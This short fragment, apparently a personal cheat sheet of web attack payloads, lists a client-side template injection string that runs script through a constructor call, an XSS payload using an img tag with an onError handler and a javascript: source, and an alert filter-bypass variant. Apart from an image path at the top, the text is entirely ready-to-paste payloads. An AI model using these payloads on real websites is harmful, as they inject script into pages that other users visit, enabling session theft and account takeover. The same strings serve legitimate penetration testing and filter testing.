 Using CSTI:
{{$eval.constructor('alert(document.domain)')()}}

Simple XSS:
<img \src=javascript:alert(1) onError=location=\src>

bypass alert:
\[alert\]\[0\].call(this,1)

